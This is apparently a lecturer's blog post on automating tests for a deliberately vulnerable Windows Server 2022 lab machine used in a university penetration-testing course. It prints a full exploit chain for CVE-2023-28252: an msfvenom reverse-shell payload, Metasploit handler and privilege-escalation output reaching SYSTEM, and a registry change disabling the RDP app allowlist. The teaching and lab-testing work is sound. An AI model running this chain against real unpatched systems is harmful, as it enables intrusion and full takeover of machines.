 ```yaml
---
title: "Automating the Testing of CVE-2023-28252"
permalink: /blog/2024-05-10-automating-testing-cve-2023_28252
collection: blog
publishDate: 2024-05-10
sitemap: true
---
```


In the Lancaster MSc Cyber Security course, I teach our module on penetration testing. For our labs and assessments this involves developing a number of vulnerable virtual machines that students have access to in a restricted environment. To give confidence that the vulnerabilities can be exploited by students in the labs, lots of time has been devoted to develop tests for these vulnerable machines and the automation of these tests. During the testing of a lab machine involving [CVE-2023-28252](https://nvd.nist.gov/vuln/detail/CVE-2023-28252) which will target a Windows 2022 server, there were challenges getting the automated test to pass while manual testing was able to exploit the vulnerability successfully.

<!-- readmore -->

## Building the Payload

The payload was built with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) and deployed via an HTTP server.

<div class="highlighter-rouge">
<div class="highlight">
<!--StartFragment --><DIV STYLE="white-space:pre;background-color:#0C0C0C;padding:4px;overflow-y:scroll;overflow-y:auto;"><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">┌──(</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">kali㉿kali</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">)-[</SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">~</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">]<BR>└─</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">$</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#3A96DD;background-color:#0C0C0C;">msfvenom</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">--payload</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.216 LPORT=4444 </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">--arch</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> x64 </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">--platform</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> windows </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">--format</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> exe </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">--out</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> reverse_tcp.exe<BR>No encoder specified, outputting raw payload<BR>Payload size: 510 bytes<BR>Final size of exe file: 7168 bytes<BR>Saved as: reverse_tcp.exe<BR><BR></SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">┌──(</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">kali㉿kali</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">)-[</SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">~</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">]<BR>└─</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">$</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#3A96DD;background-color:#0C0C0C;">python3</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">-m</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> http.server 80<BR>Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...<BR>192.168.1.173 - - [10/May/2024 14:22:29] "GET / HTTP/1.1" 200 -<BR>192.168.1.173 - - [10/May/2024 14:22:29] code 404, message File not found<BR>192.168.1.173 - - [10/May/2024 14:22:29] "GET /favicon.ico HTTP/1.1" 404 -<BR>192.168.1.173 - - [10/May/2024 14:22:33] "GET /reverse_tcp.exe HTTP/1.1" 200 -</SPAN></DIV><!--EndFragment -->
</div>
</div>

## Expected Outcome

The expected output would look like this:

<div class="highlighter-rouge">
<div class="highlight">
<!--StartFragment --><DIV STYLE="white-space:pre;background-color:#0C0C0C;padding:4px;overflow-y:scroll;overflow-y:auto;"><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">┌──(</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">kali㉿kali</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">)-[</SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">~</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">]<BR>└─</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">$</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#3A96DD;background-color:#0C0C0C;">msfconsole<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">Metasploit tip: Metasploit can be configured at startup, see msfconsole<BR>--help to learn more<BR><BR><BR></SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">         .                                         .<BR> .<BR><BR>      </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  </SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">.                       o<BR>       </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">'   dB'                     BBP<BR>    dB'dB'dB' dBBP     dBP     dBP BB<BR>   dB'dB'dB' dBP      dBP     dBP  BB<BR>  dB'dB'dB' dBBBBP   dBP     dBBBBBBB<BR><BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">                                   </SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">dBBBBBP  </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dBBBBBb  dBP    dBBBBP dBP dBBBBBBP<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">          </SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">.                  </SPAN><SPAN STYLE="color:#61D6D6;background-color:#0C0C0C;">.                  </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dB' dBP    dB'.BP<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">                             </SPAN><SPAN STYLE="color:#61D6D6;background-color:#0C0C0C;">|       </SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">dBP    </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dBBBB' dBP    dB'.BP dBP    dBP<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">                           </SPAN><SPAN STYLE="color:#61D6D6;background-color:#0C0C0C;">--o--    </SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">dBP    </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dBP    dBP    dB'.BP dBP    dBP<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">                             </SPAN><SPAN STYLE="color:#61D6D6;background-color:#0C0C0C;">|     </SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">dBBBBP </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dBP    dBBBBP dBBBBP dBP    dBP<BR><BR></SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">                                                                    .<BR>                .<BR>        o</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">                  </SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">To boldly go where no<BR>                            shell has gone before<BR><BR><BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">       =[ </SPAN><SPAN STYLE="color:#C19C00;background-color:#0C0C0C;">metasploit v6.3.55-dev                          </SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">]<BR>+ -- --=[ 2397 exploits - 1235 auxiliary - 422 post       ]<BR>+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]<BR>+ -- --=[ 9 evasion                                       ]<BR><BR>Metasploit Documentation: https://docs.metasploit.com/<BR><BR>msf6 &gt; use exploit/multi/handler<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Using configured payload generic/shell_reverse_tcp<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">multi/handler</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set PAYLOAD windows/x64/meterpreter/reverse_tcp<BR>PAYLOAD =&gt; windows/x64/meterpreter/reverse_tcp<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">multi/handler</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set LHOST 192.168.1.216<BR>LHOST =&gt; 192.168.1.216<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">multi/handler</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set LPORT 4444<BR>LPORT =&gt; 4444<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">multi/handler</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; run<BR><BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Started reverse TCP handler on 192.168.1.216:4444<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Sending stage (201798 bytes) to 192.168.1.173<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Meterpreter session 1 opened (192.168.1.216:4444 -&gt; 192.168.1.173:51892) at 2024-05-10 14:28:19 +0100<BR><BR>meterpreter &gt; background<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Backgrounding session 1...<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">multi/handler</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; use windows/local/cve_2023_28252_clfs_driver<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set SESSION 1<BR>SESSION =&gt; 1<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set PAYLOAD windows/x64/meterpreter/reverse_tcp<BR>PAYLOAD =&gt; windows/x64/meterpreter/reverse_tcp<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set LHOST 192.168.1.216<BR>LHOST =&gt; 192.168.1.216<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set LPORT 5555<BR>LPORT =&gt; 5555<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; run verbose=true<BR><BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Started reverse TCP handler on 192.168.1.216:5555<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Running automatic check ("set AutoCheck false" to disable)<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Launching msiexec to host the DLL...<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Process 3728 launched.<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Reflectively injecting the DLL into 3728...<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Exploit finished, wait for (hopefully privileged) payload execution to complete.<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Sending stage (201798 bytes) to 192.168.1.173<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Meterpreter session 2 opened (192.168.1.216:5555 -&gt; 192.168.1.173:51893) at 2024-05-10 14:28:50 +0100<BR><BR>meterpreter &gt; getuid<BR>Server username: NT AUTHORITY\SYSTEM</SPAN></DIV><!--EndFragment -->
</div>
</div>

## Actual Outcome

Instead, I received an output similar to the following, which indicated that the exploit failed.

<div class="highlighter-rouge">
<div class="highlight">
<!--StartFragment --><DIV STYLE="white-space:pre;background-color:#0C0C0C;padding:4px;overflow-y:scroll;overflow-y:auto;"><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Started reverse TCP handler on 192.168.1.216:5555<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Running automatic check ("set AutoCheck false" to disable)<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Launching netsh to host the DLL...<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Process 4896 launched.<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Reflectively injecting the DLL into 4896...<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Exploit finished, wait for (hopefully privileged) payload execution to complete.<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Exploit completed, but no session was created.<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt;</SPAN></DIV><!--EndFragment -->
</div>
</div>

## Testing Framework

In my framework for building, testing and deploying vulnerable machines, I use [WinRM](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) (via [pypsrp](https://github.com/jborean93/pypsrp) to remotely access and configure Windows machines. This allows me the ability to execute PowerShell commands on the Windows machines. So in this instance, it would let me launch the `reverse_tcp.exe` payload on the Windows machine to set up a reverse shell with Metasploit.

```python
USERNAME = "..."
PASSWORD = "..."
async with WinRMSession(ipaddr, username=USERNAME, password=PASSWORD) as sess:
    await sess.run(f'Start-Process -FilePath "C:\\Users\\{USERNAME}\\Documents\\reverse_tcp.exe"')
```

However, when doing so this consistently failed, even though I could successfully test the exploit when manually executing it.

To eliminate `Start-Process` as a potential cause of the issue, I looked for alternate ways to launch `reverse_tcp.exe`. One approach that I tried was to use verbs from Explorer to run the process. I was familiar with this approach as I had used them to [implement ejecting media in Bento](https://github.com/chef/bento/pull/1529/files).  [A Microsoft devblog by Ed Wilson](https://devblogs.microsoft.com/scripting/use-powershell-to-work-with-windows-explorer/) was useful in getting the `Open` verb to work. However, this still led to the same issue.

```python
async with WinRMSession(ipaddr, username=USERNAME, password=PASSWORD) as sess:
    await sess.run(f'(New-Object -com Shell.Application).Namespace("C:\\Users\\{USERNAME}\\Documents").ParseName("reverse_tcp.exe").InvokeVerb("Open")')
```

I wanted to check that WinRM wasn't the cause of the issue, so replaced the code to execute `reverse_tcp.exe` with the following and manually ran `reverse_tcp.exe` when the test paused. This worked, meaning that the cause of my issue was related to either connecting via WinRM or how process are launched via WinRM and how this interacts with the exploit.
```python
input()
```

Unfortunately, always having a manual input here is not acceptable, as this prevents the test suite from automatically checking this exploit path.

One of the other services that the Windows 2022 server runs is RDP. [StackOverflow was useful here](https://stackoverflow.com/a/59900048) as it indicated that applications can be run over RDP with an appropriate configuration. All that was needed was to disable checking the list of allowed applications. Not a sensible idea for a secure system, but not harmful in the context of developing a vulnerable machine for students to attack.
```powershell
# Disable allowlist for using RDP to run programs
# See: https://learn.microsoft.com/en-us/windows-hardware/customize/desktop/unattend/microsoft-windows-terminalservices-publishing-wmiprovider-fdisabledallowlist
Set-ItemProperty `
    -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Terminal Server\TSAppAllowList" `
    -Name "fDisabledAllowList" `
    -Value 1
```

A final challenge is that RDP was not happy that it was being run remotely over an SSH terminal.

<div class="highlighter-rouge">
<div class="highlight">
<!--StartFragment --><DIV STYLE="white-space:pre;background-color:#0C0C0C;padding:4px;overflow-y:scroll;overflow-y:auto;"><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">┌──(</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">kali㉿kali</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">)-[</SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">~</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">]<BR>└─</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">$</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#3A96DD;background-color:#0C0C0C;">xfreerdp </SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">/u:User /p:Password /v:192.168.1.87 /app:</SPAN><SPAN STYLE="color:#C19C00;background-color:#0C0C0C;">'C:\\Users\\User\\Documents\\reverse_tcp.exe'<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">[14:47:13:654] [1692:1692] [ERROR][com.freerdp.client.x11] - failed to open display:<BR>[14:47:13:654] [1692:1692] [ERROR][com.freerdp.client.x11] - Please check that the $DISPLAY environment variable is properly set.</SPAN></DIV><!--EndFragment -->
</div>
</div>

So instead of running `xfreerdp` via the terminal directly, the code first [creates a virtual framebuffer with xvfb-run](https://www.chrisrcook.com/2022/03/27/headless-rdp-for-fun-and-profit/). This allows the `reverse_tcp.exe` to be executed and in such a way that allows the exploit to be successful.

```python
rdp_command = f"xvfb-run -a xfreerdp /u:{USERNAME} /p:{PASSWORD} /v:{ipaddr} /app:'C:\\Users\\{USERNAME}\\Documents\\reverse_tcp.exe'"
rdp_proc = await conn.create_process(rdp_command, stderr=asyncssh.STDOUT, encoding="utf-8")
```

## Conclusions

It is still unclear to me why using a WinRM-based approach to launch `reverse_tcp.exe` did not work, especially as in other test cases for different vulnerabilities it has worked successfully. It would be interesting to investigate exactly why launching via WinRM prevented the exploit from being successful. However, the RDP approach does work and tests a slightly more realistic approach, as the students would likely use RDP to launch `reverse_tcp.exe` via a graphical interface.

Please note that this [vulnerability was patched](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-28252) on the 11th of April 2023 with Windows Server 2022 10.0.20348.1668, such systems still running a vulnerable version should be updated immediately.
